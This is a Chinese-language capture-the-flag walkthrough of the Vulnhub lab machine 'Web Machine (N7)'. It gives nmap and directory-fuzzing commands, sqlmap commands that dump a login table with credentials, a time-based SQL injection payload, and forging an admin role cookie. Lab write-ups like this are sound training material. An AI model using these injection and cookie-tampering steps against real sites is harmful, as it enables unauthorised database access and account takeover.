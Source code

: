 ```yaml
---
layout: post
title: Web Machine (N7)
subtitle: Web Machine (N7)
date: 2022-12-09 20:35
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - Vulnhub
  - 靶场实战
---
```


## Web Machine (N7)

靶机 ip：192.168.56.101

kali 攻击机 ip：192.168.56.102

注：关于 vmware 和 virtual box 虚拟机如何建立网络连接，详见：[不同虚拟化平台的虚拟机之间进行网络通信 - 简书](https://www.jianshu.com/p/632d91db9430)

### 1. 使用 nmap 扫描 c 段

```shell
nmap -sS 192.168.56.0/24
# 发现192.168.56.101
nmap -sV -sC -A 192.168.56.101
# 发现只有80端口开放
```

### 2. 扫描目录

```shell
dirb http://192.168.56.101
# http://192.168.56.101/index.html
# http://192.168.56.101/server-status
```

在浏览器查看，未发现有效信息，继续扫描

```shell
wfuzz -w /usr/share/fuzzDicts/ctfDict/ctf.txt --hc 404 http://192.168.56.101/FUZZ

ffuf -u "http://192.168.56.101/FUZZ" -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -fc 404 -e .html,.txt,.php,.zip
```

发现 exploit.html 文件，访问并提交文件，发现跳转到 localhost。将 localhost 改为靶机 ip 尝试。

![image-20221209203518987.png](https://img.ghostliner.top/Zk10Bb.png)

点击提交，得到部分 flag `FLAG{N7`

通过扫描得到`enter_network/index.php` 和 `enter_network/admin.php` 。第一个为登陆界面，第二个需要 admin 权限。接下来可以对登陆界面使用 sqlmap 检测是否有注入漏洞，或是 bp 抓包分析。

### 3. 使用 sqlmap 进行 sql 注入

```shell
sqlmap -u "http://192.168.56.101/enter_network/" --forms --dbs --current-db
# 数据库名 Machine
```

![image-20221209174849702.png](https://img.ghostliner.top/hMbCrZ.png)

```shell
sqlmap -u "http://192.168.56.101/enter_network/" --forms --batch -D "Machine" --tables
```

得到 tables: login

```shell
sqlmap -u "http://192.168.56.101/enter_network/" --forms --batch -D "Machine" -T "login" --columns
```

得到 colums: password;role;username

```shell
sqlmap -u "http://192.168.56.101/enter_network/" --forms --batch -D "Machine" -T "login" -C "username,role,password" --dump
# username:administrator
# role:admin
# password:FLAG{N7:KSA_01}
```

![image-20221209174731002.png](https://img.ghostliner.top/5AH2sR.png)

### 4. bp 抓包分析

![image-20221209205529082.png](https://img.ghostliner.top/nKhqbY.png)

response 中 set-Cookie 中`%253D`为=

```
MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM=
# 尝试进行base64解密
21232f297a57a5a743894a0e4a801fc3
# 32位尝试MD5解密
admin
```

思路 1：用户名处输入`1'+or+sleep(3)--+`发现有注入漏洞，可根据时间盲注，结合 bp 或 sqlmap。

思路 2：根据此漏洞猜解用户名，不如思路 1。

思路 3：针对 admin.php，修改 request 中 cookie 中 role 为 admin

![image-20221209212032503.png](https://img.ghostliner.top/gAMIcc.png)

得到： `KSA_01}`
